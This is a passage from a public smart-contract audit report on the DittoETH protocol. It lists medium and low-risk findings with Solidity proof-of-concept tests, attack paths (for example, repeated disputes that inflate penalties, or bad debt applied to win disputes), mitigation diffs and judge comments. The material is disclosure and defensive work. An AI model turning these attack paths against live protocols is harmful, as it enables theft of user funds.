        fundLimitBidOpt(1 ether, debt, receiver);

        // The sender's Short Record is reused and partially filled. It also has a new short Order.
        // The old cancelled short Order still references this ShortRecord.
        STypes.ShortRecord memory short = getShortRecord(sender, C.SHORT_STARTING_ID);
        assertTrue(short.status == SR.PartialFill); 
        // The Short Record's new Short Order
        STypes.Order[] memory shortOrders = getShorts();
        assertEq(shortOrders.length, 1);
        assertEq(shortOrders[0].id, 100);
        assertEq(shortOrders[0].ercAmount, minAskEth/2); // order has minAsk/2
        
        // give sender the amount needed to exit
        deal(asset, sender, debt);
        vm.prank(sender);

        // exit with the old short order id which has > minShortErc
        diamond.exitShortWallet(asset,  C.SHORT_STARTING_ID, debt, 101);
        // short Order still exists
        shortOrders = getShorts();
        assertEq(shortOrders[0].id, 100);
        assertEq(shortOrders[0].ercAmount, minAskEth/2);
        // short Record has been closed and will only be filled up to minAskEth/2
        short = getShortRecord(sender, C.SHORT_STARTING_ID);
        assertEq(uint(short.status), uint(SR.Closed)); 
    }
```

### Recommended Mitigation Steps

Consider checking if the `ShortOrder` being validated in `checkShortMinErc()` is cancelled.

[LibSRUtil.sol#L84](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L84)

```solidity
-    if (shortOrder.shortRecordId != shortRecordId || shortOrder.addr != shorter) revert Errors.InvalidShortOrder();
+    if (shortOrder.shortRecordId != shortRecordId || shortOrder.addr != shorter || shortOrder.orderType == O.Cancelled) revert Errors.InvalidShortOrder();
```

### Assessed type

DoS

**[ditto-eth (DittoETH) confirmed and commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/129#issuecomment-2045760588):**
 > I think the new check should be `shortOrder.orderType != O.LimitShort`, but otherwise great find.

**[hansfriese (judge) decreased severity to Medium and commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/129#issuecomment-2051964864):**
 > Medium is more appropriate as there is no direct fund loss.

***

## [[M-07] Using cached price to create a proposal reduce the efficacity of redemptions for asset peg](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/114)
*Submitted by [Infect3d](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/114), also found by [klau5](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/272), [XDZIBECX](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/265), [falconhoof](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/254), [Evo](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/241), [ilchovski](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/230), [LinKenji](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/224), [foxb868](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/212), and [nonseodion](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/128)*

One of the conditions for updating oracle prices in Ditto is [when an action related to shorts is executed](https://dittoeth.com/technical/oracles#conditions-for-updating-oracle).
This is important because, in the event of high volatility, shorts must be closed out before bad debt occurs in the protocol.
While [liquidations does update the oracle](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L68-L68) before processing the short, this is not the case for [redemptions](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L75).

Redemptions, as liquidations, play a central role in Ditto. By allowing users to redeem shorts with poor collateralization for a 1:1 exchange rate of the asset, Ditto is able to maintain a stable peg for its pegged asset.
For this reason, it is important to reduce the pricing delay for the redeems, as much as for the liquidations.

```solidity
File: contracts\facets\RedemptionFacet.sol
56:     function proposeRedemption(
57:         address asset,
58:         MTypes.ProposalInput[] calldata proposalInput,
59:         uint88 redemptionAmount,
60:         uint88 maxRedemptionFee
61:     ) external isNotFrozen(asset) nonReentrant {
...:
...:		//...
74: 
75:⚠		p.oraclePrice = LibOracle.getPrice(p.asset); //<@ getting cached price
76: 
77:         bytes memory slate;
78:         for (uint8 i = 0; i < proposalInput.length; i++) {
79:             p.shorter = proposalInput[i].shorter;
80:             p.shortId = proposalInput[i].shortId;
81:             p.shortOrderId = proposalInput[i].shortOrderId;
82:             // @dev Setting this above _onlyValidShortRecord to allow skipping
83:             STypes.ShortRecord storage currentSR = s.shortRecords[p.asset][p.shorter][p.shortId];
84: 
85:             /// Evaluate proposed shortRecord
86: 
87:             if (!validRedemptionSR(currentSR, msg.sender, p.shorter, minShortErc)) continue;
88: 
89:             currentSR.updateErcDebt(p.asset);
90:⚠			p.currentCR = currentSR.getCollateralRatio(p.oraclePrice); //<@ Collateral ratio calculated using cached price
91: 
92:             // @dev Skip if proposal is not sorted correctly or if above redemption threshold
93:❌			if (p.previousCR > p.currentCR || p.currentCR >= C.MAX_REDEMPTION_CR) continue; //<@ 
```

### Impact

If the cached price is not reflective of the current market price, the protocol may either overvalue or undervalue the collateral backing shorts. The usage of cached prices in the `proposeRedemption` function, as opposed to real-time or recently updated prices will affect the effectiveness of the redemption process in maintaining the asset's peg in periods of high volatility.

### Recommended Mitigation Steps

Do not use cached price for redemptions, but rather an updated price through `LibOracle::getSavedOrSpotOraclePrice`, for example.

### Assessed type

Oracle

**[raymondfam (lookout) commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/114#issuecomment-2040981854):**
 > Oracle price is cached to 15m, mostly done to allow the hint system to work. Will let sponsor to assess the severity of the issue.

**[ditto-eth (DittoETH) confirmed](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/114#issuecomment-2043742273)**

***

## [[M-08] If a redemption has `N` disputable shorts, it is possible to dispute `N-1` times the redemption to maximize the penalty](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/110)
*Submitted by [Infect3d](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/110)*

Ditto is a decentralized CDP protocol allowing users to get stablecoins (called dUSD here) against LST (Liquid Staking Tokens like stETH or rETH) collateral.
Depositing LST grant dETH, a shares representing the value deposited in ETH.
Users can then open different kind of positions: bids, asks or shorts, each one having its own orderbook.

Ditto implemented a mechanism called Redemption, idea borrowed from [Liquity](https://docs.liquity.org/faq/lusd-redemptions). Redemption allows anyone to redeem dUSD for a value of exactly 1 USD by calling out shorts with very bad CR (collateral ratio) and closing them.
This helps the protocol to keep a healthy global market CR, shorters to not be liquidated, and dUSD holders to redeem dUSD with no loss in case of dUSD trading below 1 USD.

Users can propose multiple shorts to be redeemed at once if they meet certain conditions ([see Constraints in doc](https://dittoeth.com/technical/redemptions#proposing-a-redemption)).
The shorts must be sorted from lowest CR to highest CR, and all CRs must be below a CR of 2.
If a proposal do not properly follow these rules, anyone can dispute the proposal by showing a proof-short: all proposal shorts with a CR higher than the proof become invalid.

For each invalid short, a penalty is applied to the redeemer (and awarded to the disputer)
The penalty calculation is based on the CR difference between the `disputeCR` (proof) and the the `currentProposal.CR` (lowest invalid CR):

*Note: please see scenario in warden's [original submission](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/110).*

The issue is located in this part of the mechanism and is pretty easy to understand.
Let's imagine 4 shorts in a list of shorts:  ... `< CR1 < CR2 < CR3 < CR4 <` ...
`CR1 = 1.1, CR2 = 1.2, CR3 = 1.3, CR4 = 1.4`, and all have an `ercDebt` of 1 ETH.

Redeemer propose `[CR2, CR3, CR4]` to redeem.

Disputer sees that there is in fact CR1 that is lower than all the proposed shorts.

Disputer could dispute the proposal by giving CR1 as a proof, and CR2 as the invalid CR, which would also invalid all higher CRs in the proposal. This would give (let's take `callerFeePct` value from tests, 0.005 or 0.5%):

1. `penaltyPct =` `min( max(0.005, (1.2 - 1.1)/1.2 ), 0.33) = min( max(0.005, 0.091), 0.33) = 0.091`.
2. `penaltyAmt =` `(1 + 1 + 1)ETH * 0.091 = 3 * 0.091 = 0.273 ETH`.

The vulnerability lies in the fact that the disputer can dispute this proposal 3 times:
- 1st: dispute CR4 with CR1.
- 2nd: dispute CR3 with CR1.
- 3rd: dispute CR2 with CR1.

By doing this, the disputer will get penalty applied 3 times, and in some case, the total penalty using this trick will be higher than the penalty when disputing the whole proposal at once, as shown in the coded proof of concept.

For CR1:

1. `penaltyPct =` `min( max(0.005, (1.4 - 1.1)/1.4 ), 0.33) = 0.214`.
2. `penaltyAmt =` `1 ETH * 0.214 = 0.214 ETH`.

For CR2:

1. `penaltyPct =` `min( max(0.005, (1.3 - 1.1)/1.3 ), 0.33) = 0.142`.
2. `penaltyAmt =` `1 ETH * 0.214 = 0.142 ETH`.

For CR3:

1. `penaltyPct =` `min( max(0.005, (1.2 - 1.1)/1.2 ), 0.33) = 0.091`.
2. `penaltyAmt =` `1 ETH * 0.091 = ` `0.091 ETH`.

`sum of penaltyAmt = 0.447 ETH`.

We can see here how more beneficial it to adopt the second strategy.

### Impact

Higher penalty than expected for redeemer, higher reward for disputer.

### Proof of Concept

Copy [this gist](https://gist.github.com/InfectedIsm/036947553bdfc984a19b929eea4aade5) to `test/Redemption.t.sol` and run the tests by executing `forge test -vvv --mt AuditDisputeRedemption`.

You'll get that output, showing that disputing redemptions one by one give a higher penalty:

    Running 2 tests for test/Redemption.t.sol:RedemptionTest
    [PASS] test_AuditDisputeRedemptionAllAtOnce() (gas: 2213036)
    Logs:
      redeemer reward: 7.69230769230769231e21

    [PASS] test_AuditDisputeRedemptionOneByOne() (gas: 2250699)
    Logs:
      redeemer reward: 3.846153846153846155e21
      redeemer reward: 4.166666666666666665e21

### Recommended Mitigation Steps

If a user gives `N` as the `incorrectIndex` in the disputed proposal, knowing that the proposal is sorted from lowest to highest CR, ensure that `proposal[N-1].CR <= disputeCR` (revert in that case).

### Assessed type

Math

**[ditto-eth (DittoETH) confirmed, but disagreed with severity and commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/110#issuecomment-2046000503):**
 > Really good find. Looks like the formula can be exploited to give a higher fee than intended. That said, I'm leaning more towards low/medium because the only effect is a higher fee for the disputer, incorrect proposals should happen very rarely from an honest user, and this doesn't affect the redemption from working properly.

**[hansfriese (judge) decreased severity to Medium and commented](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/110#issuecomment-2051913404):**
 > I agree Medium is more appropriate.

***

## [[M-09] Valid redemption proposals can be disputed when bad debt occurs by applying it to a SR outside of the proposal](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/33)
*Submitted by [Cosine](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/33), also found by [0xbepresent](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/163)*

<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/RedemptionFacet.sol#L259>

<https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibSRUtil.sol#L151-L162>

### Impact

When bad debt occurs in the system it is socialized among all short records by increasing the `ercDebtRate`. At the next interaction with this short the `updateErcDebt` function is called to apply the portion of bad debt to the short:

```solidity
function updateErcDebt(STypes.ShortRecord storage short, address asset) internal {
    AppStorage storage s = appStorage();

    // Distribute ercDebt
    uint64 ercDebtRate = s.asset[asset].ercDebtRate;
    uint88 ercDebt = short.ercDebt.mulU88(ercDebtRate - short.ercDebtRate);

    if (ercDebt > 0) {
        short.ercDebt += ercDebt;
        short.ercDebtRate = ercDebtRate;
    }
}
```

As we can see the `updateErcDebt` function has the mentioned properties. It increases the debt and therefore, influences the CR without updating the `updatedAt` param. This enables the following attack path:

- User creates a valid redemption proposal.
- Bad debt occurs in the system.
- The attacker applies the bad debt to a short record that is not part of the proposal and by doing so falls below the CR of any of the SRs in the proposal.
- Attacker disputes the redemption proposal to receive the penalty fee.

The `updateErcDebt` function is internal, but the `proposeRedemption` function can be used to apply it on any SR.

### Proof of Concept

The following POC can be implemented in the `Redemption.t.sol` test file and showcases that the `proposeRedemption` function can be used to apply bad debt to SRs without updating the `updatedAt` parameter. That this can be misused to steal funds as shown with another POC in the mentioned report.

```solidity
function test_proposeRedemption_does_update_updatedAt() public {
    // setup
    uint88 _redemptionAmounts = DEFAULT_AMOUNT * 2;
    makeShorts({singleShorter: true});

    skip(1 hours);
    _setETH(1000 ether);

    // propose a redemption
    MTypes.ProposalInput[] memory proposalInputs =
        makeProposalInputsForDispute({shortId1: C.SHORT_STARTING_ID, shortId2: C.SHORT_STARTING_ID + 1});

    uint32 updatedAtBefore = getShortRecord(sender, C.SHORT_STARTING_ID).updatedAt;

    vm.prank(receiver);
    diamond.proposeRedemption(asset, proposalInputs, _redemptionAmounts, MAX_REDEMPTION_FEE);

    uint32 updatedAtAfter = getShortRecord(sender, C.SHORT_STARTING_ID).updatedAt;

    // updatedAt param was not updated
    assertEq(updatedAtBefore, updatedAtAfter);
}
```

### Recommended Mitigation Steps

Update the `updatedAt` parameter every time the `updateErcDebt` function is called, or/and call `updateErcDebt` in the `disputeRedemption` function on the SR at the `incorrectIndex` before comparing the CRs.

### Assessed type

Context

**[ditto-eth (DittoETH) confirmed](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/33#issuecomment-2045531319)**

***

# Low Risk and Non-Critical Issues

For this audit, 18 reports were submitted by wardens detailing low risk and non-critical issues. The [report highlighted below](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/31) by **hihen** received the top score from the judge.

*The following wardens also submitted reports: [Pechenite](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/201), [oualidpro](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/152), [slvDev](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/138), [albahaca](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/73), [cheatc0d3](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/290), [0xbepresent](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/269), [serial-coder](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/266), [0xSecuri](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/233), [Bube](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/222), [pfapostol](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/182), [nonseodion](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/132), [Infect3d](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/115), [Topmark](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/91), [Rolezn](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/76), [klau5](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/72), [Bigsam](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/42), and [caglankaan](https://github.com/code-423n4/2024-03-dittoeth-findings/issues/5).*

## [01] Multiplication on the result of a division

<details>

Dividing a number by another often results in a loss of precision. Multiplying the result by another number increases the loss of precision, often significantly. For example: `x*(y/z)` should be re-written as `(x*z)/y`.

There are 3 instances:

LibOracle.sol ([93-93](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L93-L93), [141-141](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOracle.sol#L141-L141)):

```solidity
93:                 uint256 twapPriceNormalized = twapPrice * (1 ether / C.DECIMAL_USDC);

141:         uint256 twapPriceNormalized = twapPrice * (1 ether / C.DECIMAL_USDC);
```

LibOrders.sol ([47-47](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L47-L47)):

```solidity
47:             uint88 shares = eth * (timeTillMatch / 1 days);
```

</details>

## [02] Events may be emitted out of order due to reentrancy

<details>

Ensure that events follow the best practice of check-effects-interaction, and are emitted before external calls.

BridgeRouterFacet.sol ([72-72](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L72-L72), [90-90](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L90-L90), [122-122](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L122-L122), [143-143](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BridgeRouterFacet.sol#L143-L143)):

```solidity
/// @audit deposit() is called prior to this emission in deposit()
72:         emit Events.Deposit(bridge, msg.sender, dethAmount);

/// @audit depositEth() is called prior to this emission in depositEth()
90:         emit Events.DepositEth(bridge, msg.sender, dethAmount);

/// @audit withdraw() is called prior to this emission in withdraw()
122:         emit Events.Withdraw(bridge, msg.sender, dethAmount, fee);

/// @audit withdraw() is called prior to this emission in withdrawTapp()
143:         emit Events.WithdrawTapp(bridge, msg.sender, dethAmount);
```

ExitShortFacet.sol ([75-75](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L75-L75), [210-210](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ExitShortFacet.sol#L210-L210)):

```solidity
/// @audit burnMsgSenderDebt() is called prior to this emission in exitShortWallet(), which will call `burnFrom()`
75:         emit Events.ExitShortWallet(asset, msg.sender, id, buybackAmount);

/// @audit createForcedBid() is called prior to this emission in exitShort()
210:         emit Events.ExitShort(asset, msg.sender, id, e.ercFilled);
```

PrimaryLiquidationFacet.sol ([87-87](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L87-L87)):

```solidity
/// @audit _performForcedBid() is called prior to this emission in liquidate(), which will call `createForcedBid()`
87:         emit Events.Liquidate(asset, shorter, id, msg.sender, m.ercDebtMatched);
```

</details>

## [03] Unsafe conversion from unsigned to signed values

<details>

The `int` type in Solidity uses the [two's complement system](https://en.wikipedia.org/wiki/Two%27s_complement), so it is possible to accidentally overflow a very large `uint` to an `int`, even if they share the same number of bytes (e.g. a `uint256 number > type(uint128).max` will overflow a `int256` cast).

Consider using the [SafeCast](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeCast.sol) library to prevent any overflows.

UniswapOracleLibrary.sol ([62-62](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L62-L62), [65-65](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/UniswapOracleLibrary.sol#L65-L65)):

```solidity
/// @audit uint -> int
62:         int24 tick = int24(tickCumulativesDelta / int32(secondsAgo));

/// @audit uint -> int
65:         if (tickCumulativesDelta < 0 && (tickCumulativesDelta % int32(secondsAgo) != 0)) {
```

</details>

## [04] Vulnerable versions of packages are being used

<details>

This project is using specific package versions which are vulnerable to the specific CVEs listed below. Consider switching to more recent versions of these packages that don't have these vulnerabilities.
- [CVE-2023-49798](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-49798) - **HIGH** - (`@openzeppelin/contracts 4.9.4`): OpenZeppelin Contracts is a library for smart contract development. A merge issue when porting the 5.0.1 patch to the 4.9 branch caused a line duplication. In the version of `Multicall.sol` released in `@openzeppelin/contracts@4.9.4` and `@openzeppelin/contracts-upgradeable@4.9.4`, all subcalls are executed twice. Concretely, this exposes a user to unintentionally duplicate operations like asset transfers. The duplicated delegatecall was removed in version 4.9.5. The 4.9.4 version is marked as deprecated. Users are advised to upgrade. There are no known workarounds for this issue.

- [CVE-2023-40014](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-40014) - **MEDIUM** - (`@openzeppelin/contracts >=4.0.0 <4.9.3`): OpenZeppelin Contracts is a library for secure smart contract development. Starting in version 4.0.0 and prior to version 4.9.3, contracts using `ERC2771Context` along with a custom trusted forwarder may see `_msgSender` return `address(0)` in calls that originate from the forwarder with calldata shorter than 20 bytes. This combination of circumstances does not appear to be common, in particular it is not the case for `MinimalForwarder` from OpenZeppelin Contracts, or any deployed forwarder the team is aware of, given that the signer address is appended to all calls that originate from these forwarders. The problem has been patched in v4.9.3.

- [CVE-2023-34459](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-34459) - **MEDIUM** - (`@openzeppelin/contracts >=4.7.0 <4.9.2`): OpenZeppelin Contracts is a library for smart contract development. Starting in version 4.7.0 and prior to version 4.9.2, when the `verifyMultiProof`, `verifyMultiProofCalldata`, `procesprocessMultiProof`, or `processMultiProofCalldat` functions are in use, it is possible to construct merkle trees that allow forging a valid multiproof for an arbitrary set of leaves. A contract may be vulnerable if it uses multiproofs for verification and the merkle tree that is processed includes a node with value 0 at depth 1 (just under the root). This could happen inadvertently for balanced trees with 3 leaves or less, if the leaves are not hashed. This could happen deliberately if a malicious tree builder includes such a node in the tree. A contract is not vulnerable if it uses single-leaf proving (`verify`, `verifyCalldata`, `processProof`, or `processProofCalldata`), or if it uses multiproofs with a known tree that has hashed leaves. Standard merkle trees produced or validated with the @openzeppelin/merkle-tree library are safe. The problem has been patched in version 4.9.2. Some workarounds are available. For those using multiproofs: When constructing merkle trees hash the leaves and do not insert empty nodes in your trees. Using the @openzeppelin/merkle-tree package eliminates this issue. Do not accept user-provided merkle roots without reconstructing at least the first level of the tree. Verify the merkle tree structure by reconstructing it from the leaves.

- Global finding

</details>

## [05] Critical functions should be controlled by time locks

<details>

It is a good practice to give time for users to react and adjust to critical changes. A timelock provides more guarantees and reduces the level of trust required, thus decreasing risk for users. It also indicates that the project is legitimate (less risk of a malicious owner making a sandwich attack on a user).

PrimaryLiquidationFacet.sol ([122-124](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/PrimaryLiquidationFacet.sol#L122-L124)):

```solidity
122:     function _setLiquidationStruct(address asset, address shorter, uint8 id, uint16 shortOrderId)
123:         private
124:         returns (MTypes.PrimaryLiquidation memory)
```

</details>

## [06] External function calls within loops

<details>

Calling external functions within loops can easily result in insufficient gas. This greatly increases the likelihood of transaction failures, DOS attacks, and other unexpected actions. It is recommended to limit the number of loops within loops that call external functions, and to limit the gas line for each external call.

There are 8 instances:

BidOrdersFacet.sol ([145-145](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L145-L145), [153-153](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L153-L153), [195-195](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L195-L195), [201-201](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L201-L201)):

```solidity
/// @audit Calling `matchIncomingBid()` within `while` loop, it will trigger an external call - `_cancelAsk()`
145:                 return matchIncomingBid(asset, incomingBid, matchTotal, b);

/// @audit Calling `matchIncomingBid()` within `while` loop, it will trigger an external call - `_cancelAsk()`
153:                     return matchIncomingBid(asset, incomingBid, matchTotal, b);

/// @audit Calling `matchIncomingBid()` within `while` loop, it will trigger an external call - `_cancelAsk()`
195:                     return matchIncomingBid(asset, incomingBid, matchTotal, b);

/// @audit Calling `matchIncomingBid()` within `while` loop, it will trigger an external call - `_cancelAsk()`
201:                 return matchIncomingBid(asset, incomingBid, matchTotal, b);
```

LibOrders.sol ([579-579](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L579-L579), [591-591](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L591-L591), [613-613](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L613-L613), [618-618](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/libraries/LibOrders.sol#L618-L618)):

```solidity
/// @audit Calling `matchIncomingSell()` within `while` loop, it will trigger an external call - `_updateYieldDiamond()`
579:                     matchIncomingSell(asset, incomingAsk, matchTotal);

/// @audit Calling `matchIncomingSell()` within `while` loop, it will trigger an external call - `_updateYieldDiamond()`
591:                         matchIncomingSell(asset, incomingAsk, matchTotal);

/// @audit Calling `matchIncomingSell()` within `while` loop, it will trigger an external call - `_updateYieldDiamond()`
613:                     matchIncomingSell(asset, incomingAsk, matchTotal);

/// @audit Calling `matchIncomingSell()` within `while` loop, it will trigger an external call - `_updateYieldDiamond()`
618:                 matchIncomingSell(asset, incomingAsk, matchTotal);
```

</details>

## [07] Use descriptive constant instead of `0` as a parameter

<details>

Passing `0` or `0x0` as a function argument can sometimes result in a security issue (e.g. passing zero as the slippage parameter). A historical example is the infamous `0x0` address bug where numerous tokens were lost. This happens because `0` can be interpreted as an uninitialized `address`, leading to transfers to the `0x0` `address`, effectively burning tokens. Moreover, `0` as a denominator in division operations would cause a runtime exception. It's also often indicative of a logical error in the caller's code.

Consider using a constant variable with a descriptive name, so it's clear that the argument is intentionally being used, and for the right reasons.

ShortOrdersFacet.sol ([48-48](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/ShortOrdersFacet.sol#L48-L48)):

```solidity
48:         incomingShort.shortRecordId = LibShortRecord.createShortRecord(asset, msg.sender, SR.Closed, 0, 0, 0, 0, 0);
```

</details>

## [08] Code does not follow the best practice of check-effects-interaction

<details>

Code should follow the best-practice of [check-effects-interaction](https://blockchain-academy.hs-mittweida.de/courses/solidity-coding-beginners-to-intermediate/lessons/solidity-11-coding-patterns/topic/checks-effects-interactions/), where state variables are updated before any external calls are made. Doing so prevents a large class of reentrancy bugs.

There are 30 instances:

BidOrdersFacet.sol ([157-157](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L157-L157), [158-158](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L158-L158), [160-160](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L160-L160), [161-161](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L161-L161), [165-165](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L165-L165), [167-167](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L167-L167), [172-172](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L172-L172), [173-173](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L173-L173), [176-176](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L176-L176), [180-180](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L180-L180), [182-182](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L182-L182), [184-184](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L184-L184), [186-186](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L186-L186), [187-187](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L187-L187), [191-191](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L191-L191), [191-191](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L191-L191), [194-194](https://github.com/code-423n4/2024-03-dittoeth/blob/91faf46078bb6fe8ce9f55bcb717e5d2d302d22e/contracts/facets/BidOrdersFacet.sol#L194-L194)):

```solidity
/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
157:                     incomingBid.ercAmount -= lowestSell.ercAmount;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
158:                     lowestSell.ercAmount = 0;

/// @audit `matchIncomingBid()` is called on line 145, triggering an external call - `_cancelAsk()`
160:                         b.matchedShortId = lowestSell.id;

